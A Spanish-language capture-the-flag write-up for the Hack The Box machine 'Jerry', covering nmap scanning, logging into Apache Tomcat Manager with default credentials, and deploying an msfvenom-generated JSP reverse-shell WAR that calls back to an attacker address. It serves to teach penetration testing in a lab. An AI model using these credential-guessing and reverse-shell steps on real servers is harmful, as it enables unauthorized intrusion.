 ```yaml
---
title: Jerry
date: '2023-07-08'
lastmod: '2023-08-05'
tags: ['labs', 'HackTheBox']
draft: true
summary: 'Aunque Jerry es una de las máquinas más fáciles en Hack The Box, es realista, ya que Apache Tomcat se encuentra a menudo expuesto y configurado con credenciales comunes o débiles.'
images: ['/static/images/htb/jerry/jerry.png']
---
```


![Portada](/static/images/htb/jerry/jerry.png)

<br></br>

<TOCInline toc={props.toc} exclude="Introduccion" />

## Reconocimiento

### Ping

Primero que nada verificamos estar en la misma red que la maquina victima enviandole un paquete de datos a la ip 10.10.10.95 con el comando ping.

```js
  ping -c 10.10.10.95
```

- `-c` : Cantidad de paquetes de solicitud de eco ICMP (Internet Control Message Protocol) que se enviaran.

![Ping](/static/images/htb/jerry/ping.png)

### Nmap

Luego, realizamos el escaneo de puertos.

```js
  nmap -p- --open 10.10.10.95 -Pn
```

- `-p-` : Escanea todos los puertos.
- `--open` : Solo va a reportar los puertos que encuentre abiertos.
- `-Pn` : Realiza el escaneo incluso si el dispositivo no responde a los pings.

![Nmap1](/static/images/htb/jerry/nmap1.png)

Al obtener la lista de los puertos abiertos en la maquina victima,realizamos otro escaneo pero solo a los que
nmap reporto como abiertos incluyendo las siguientes flags:

- `-sC` : Activa el escaneo utilizando scripts de enumeración y detección de servicios predeterminados. Los scripts se ejecutan contra los puertos abiertos para obtener información adicional sobre los servicios en ejecución.
- `-sV` : Realiza una detección de versión de los servicios que se encuentran en los puertos abiertos. Nmap intenta determinar la versión y el tipo de servicio utilizando diversos métodos, como el envío de solicitudes específicas y la comparación de las respuestas recibidas.
- `-p` : Especifica los puertos que se escanearán. En este caso, se están escaneando los puertos 21 (FTP), 22 (SSH), 139 (NetBIOS/SMB), 445 (SMB) y 3632 (distccd).
- `-Pn` : Indica a Nmap que realice el escaneo incluso si el dispositivo no responde a los pings. Esto puede ser útil cuando el dispositivo tiene configuraciones de firewall que bloquean los paquetes ICMP de solicitud de eco.

```js
  nmap -sC -sV -p8080 10.10.10.95 -Pn
```

![Nmap2](/static/images/htb/jerry/nmap2.png)

### Puertos abiertos

| Puertos abiertos | Servicio | Version              |
| ---------------- | -------- | -------------------- |
| **_8080/tcp_**   | http     | Apache Tomcat 7.0.88 |

## Enumeracion

### Puerto 8080 HTTP

El puerto 8080 es comúnmente utilizado como un puerto alternativo para ejecutar servicios web. El servicio más común que se ejecuta en el puerto 8080 es un servidor web HTTP. Algunos servidores web populares, como `Apache Tomcat` y `JBoss`, utilizan el puerto `8080` como el puerto predeterminado para escuchar solicitudes HTTP. Sin embargo, es importante tener en cuenta que el puerto 8080 no está reservado exclusivamente para ningún servicio específico, por lo que otros servicios también pueden utilizarlo.

En este caso el servicio proporcionado es el de `Apache`, especificamente con la
version 7.0.88.

Abrimos en un navegador la direccion `http://10.10.10.95:8080` para dirigirnos a la pagina de inicio del servidor Apache.

![Apache](/static/images/htb/jerry/apache1.png)

Navegamos por ella para descubrir mas cosas y al clickear en `Server Status` nos aparece un cartel
para introducir credenciales. Ya que no tenemos, realizamos una busqueda por google acerca de
credenciales por default que utilice Apache en general o en esta version.
Y en esta [pagina](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) encontramos credenciales por default de Apache.

Procedemos a probar unas de ellas y `admin:admin` nos permite loguearnos.

![Apache](/static/images/htb/jerry/apache2.png)
![Apache](/static/images/htb/jerry/apache3.png)

Estamos en la pagina Server Status, esta pagina nos proporciona información detallada sobre el estado y el rendimiento del servidor web. Hacemos click en `List Applications` y me dirige a una pagina `403 - Acceso Denegado`, en la cual da un ejemplo de credenciales.

![Apache](/static/images/htb/jerry/apache4.png)

Como `admin:admin`, nos dio un acceso limitado en el servidor, probamos iniciar sesion
con `tomcat:s3cret` y esta vez si tenemos acceso a `List Application`.

![Apache](/static/images/htb/jerry/apache5.png)

Vemos que nos da la posibilidad de cargar archivos WAR.
![Apache](/static/images/htb/jerry/apache6.png)

### WAR

Los archivos WAR (Web Application Archive) son archivos comprimidos que contienen todos los componentes necesarios para ejecutar una aplicación web en el entorno de servidor Java. Estos archivos son utilizados principalmente en el desarrollo de aplicaciones Java EE (Enterprise Edition) o J2EE (Java 2 Enterprise Edition).

Un archivo WAR se crea para empaquetar y distribuir una aplicación web de Java de manera conveniente. Contiene todos los archivos necesarios para implementar y ejecutar la aplicación en un contenedor de servlets, como Apache Tomcat, JBoss, WebSphere, entre otros.

Buscamos en google `apache tomcat 7.0.88 war file upload` y encontramos una [web](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/) en la cual explica paso a paso como generar un archivo WAR para obtener una [reverse shell](https://keepcoding.io/blog/que-es-una-shell-inversa/).

Vamos a seguir el paso a paso de esa publicacion.

## Explotacion

### Msfvenom

`Msfvenom` es una herramienta que forma parte del marco de trabajo `Metasploit`, un conjunto de herramientas de seguridad y pruebas de penetración ampliamente utilizado. Se utiliza específicamente para generar y manipular payloads (cargas útiles) maliciosas.

Una `carga útil` o `payload` es un fragmento de código malicioso que se utiliza para explotar una vulnerabilidad en un sistema o red con el fin de obtener acceso no autorizado o controlar el sistema objetivo. Estas cargas útiles se utilizan comúnmente en pruebas de penetración y evaluaciones de seguridad para detectar y corregir vulnerabilidades.

Msfvenom proporciona una interfaz de línea de comandos que permite a los usuarios generar diferentes tipos de cargas útiles, como exploits, troyanos, backdoors y shellcodes, adaptados a diferentes sistemas operativos y arquitecturas. Permite personalizar y configurar varios aspectos de la carga útil, como el tipo de exploit utilizado, la codificación, la forma de entrega, el mecanismo de persistencia y mucho más.

### Armando el payload

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.4.2 LPORT=4646 -f war > shell.war
```

- `-p java/jsp_shell_reverse_tcp`: Especifica el tipo de payload que se va a generar, en este caso, una reverse shell TCP basada en Java JSP. Esta reverse shell TCP permite al atacante establecer una conexión desde el sistema comprometido hacia el sistema del atacante.

- `LHOST=10.10.4.2`: Define la dirección IP a la cual la carga útil se conectará de forma reversa. En este caso, se utiliza la dirección IP "10.10.4.2" (vpn de `HTB`) como ejemplo. Debes reemplazarla con la dirección IP real del sistema que actuará como el punto de escucha para recibir la conexión de reversa.

- `LPORT=4646`: Especifica el puerto en el cual el payload se conectará de forma reversa. En este caso, se utiliza el puerto "4646" como ejemplo. Puedes modificarlo según tus necesidades, siempre teniendo en cuenta que no esté bloqueado por firewalls o utilizados por otros servicios.

- `-f war`: Indica el formato de salida deseado para la carga útil generada. En este caso, se especifica que se desea generar un archivo WAR (Web Application Archive), como se describió anteriormente.

- `> shell.war`: Redirige la salida generada por msfvenom hacia un archivo llamado "shell.war". Puedes cambiar el nombre del archivo según tus preferencias.

![Exploit](/static/images/htb/jerry/exploit.png)

Luego de haber generado el exploit, ponemos el puerto 4646 en escucha.

![Puerto](/static/images/htb/jerry/puerto.png)

Volvemos a la pagina del servidor Apache,cargamos nuestro exploit y navegamos hacia `http://10.10.10.95:8080/shell/`.

![Carga](/static/images/htb/jerry/upload.png)
![Carga2](/static/images/htb/jerry/upload2.png)
![Shell](/static/images/htb/jerry/shell.png)

Volvemos a la consola donde teniamos el puerto 4646 en escucha y nos encontramos dentro de la maquina
victima. Luego de eso navegamos por los directorios y encontramos las dos flags juntas.
![Dir](/static/images/htb/jerry/dir1.png)
![Dir2](/static/images/htb/jerry/dir2.png)
